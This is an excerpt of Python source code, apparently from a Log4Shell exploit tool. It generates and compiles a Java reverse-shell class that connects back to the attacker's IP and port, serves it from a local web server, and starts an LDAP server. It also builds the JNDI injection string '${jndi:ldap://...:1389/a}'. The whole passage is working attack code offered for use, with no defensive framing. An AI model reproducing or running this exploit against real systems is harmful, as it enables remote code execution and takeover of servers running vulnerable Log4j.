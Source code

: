```python
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f'[-] Something went wrong {e}')
        raise e
    else:
        print(Fore.GREEN + '[+] Exploit java class created success')


def payload(userip: str, webport: int, lport: int) -> None:
    generate_payload(userip, lport)

    print(Fore.GREEN + '[+] Setting up LDAP server\n')

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server, args=(userip, webport))
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver on port {webport} http://0.0.0.0:{webport}")
    httpd = HTTPServer(('0.0.0.0', webport), SimpleHTTPRequestHandler)
    httpd.serve_forever()


def check_java() -> bool:
    exit_code = subprocess.call([
        os.path.join(CUR_FOLDER, 'jdk1.8.0_20/bin/java'),
        '-version',
    ], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
    return exit_code == 0


def ldap_server(userip: str, lport: int) -> None:
    sendme = "${jndi:ldap://%s:1389/a}" % (userip)
```